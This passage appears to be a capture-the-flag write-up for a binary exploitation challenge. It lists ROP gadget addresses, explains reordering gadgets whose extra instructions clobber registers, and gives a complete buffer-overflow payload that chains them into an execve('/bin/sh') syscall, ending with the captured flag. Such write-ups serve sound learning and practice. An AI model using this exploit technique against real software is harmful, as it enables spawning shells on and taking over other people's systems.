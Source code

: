 ### Gadgets found:
```python
pop_rdi_addr = 0x4011cb  # pop rdi; pop rcx; ret
bin_sh_addr = 0x402051 
xor_rsi = 0x40119f        # xor rsi, rsi; ret
pop_rdx = 0x401199        # pop rdx; ret
pop_rax = 0x4011c6        # pop rax; xor rdi, rdi; ret
rax_value = 59
syscall = 0x4011d6        # syscall

return_addr = 0x40101a    # return address
```

Some gadgets contain multiple instructions, so I had to change the order of some gadgets to avoid problems. For example, the `pop rax` gadget also does `xor rdi, rdi`, which overwrites the `/bin/sh` address I set earlier. To fix this, I moved the `pop rax` gadget before `pop rdi`.

Another issue was with the `pop rdi; pop rcx; ret` gadget, where `pop rcx` would overwrite `xor rsi, rsi`, messing up the execution. I rearranged the gadgets to fix this.

### Adjusted Payload:
```python
payload = b"A" * RIP_OFFSET 
payload += p64(return_addr)  # return address to avoid segmentation fault
payload += p64(pop_rax) + p64(59)  # rax = 59, placed here because it also contains xor rdi, rdi
payload += p64(pop_rdi_addr) + p64(bin_sh_addr)  # rdi -> "/bin/sh", but the gadget also pops rcx
payload += p64(0)  # Taken from the pop rcx instruction
payload += p64(xor_rsi)  # xor rsi, rsi -> rsi = 0
payload += p64(pop_rdx) + p64(0)  # pop rdx -> rdx = 0
payload += p64(syscall) 
```
The important thing is that pop rdi, xor rsi, and pop rdx are placed in the correct order!


Running this payload successfully triggered the `execve("/bin/sh", 0, 0)` syscall and I got the flag:

```
BASC{c0d3_r3U5e_FtW___EuSWtcKE}
```  

